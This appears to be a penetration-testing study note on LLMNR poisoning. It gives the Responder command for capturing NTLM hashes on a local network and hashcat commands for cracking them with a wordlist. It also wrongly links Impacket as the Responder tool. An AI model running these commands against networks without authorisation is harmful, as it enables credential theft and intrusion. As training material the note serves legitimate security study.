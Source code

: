 # LLMNR Poisoning

## What is LLMNR

![image](https://user-images.githubusercontent.com/96747355/167956823-a8f3ac8f-e971-463e-8c67-ba26f5f6e774.png)  
*Source: TCM Security Academy*
![image](https://user-images.githubusercontent.com/96747355/167956838-6185b47d-dfc8-4cb1-9a4e-39814a7a795b.png)  
*Source: TCM Security Academy*

## Responder

- [Impacket](https://github.com/SecureAuthCorp/impacket): tool to abuse LLMNR:  
Best to run first thing in the morning  
```responder -I eth0 -rdwv```
And when there will be activity in the network we will be able to get hashes

## Hascat

- We use hashcat to crack the hashes we got previously
- When looking for a module in hascat we can grep on the hash we need:
```hashcat --help | grep NTLM```
- Command
```hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt```

## LLMNR Poisoning Defense

![image](https://user-images.githubusercontent.com/96747355/167956945-7978a93c-5fdf-425a-90e6-87baed015c74.png)  
*Source: TCM Security Academy*

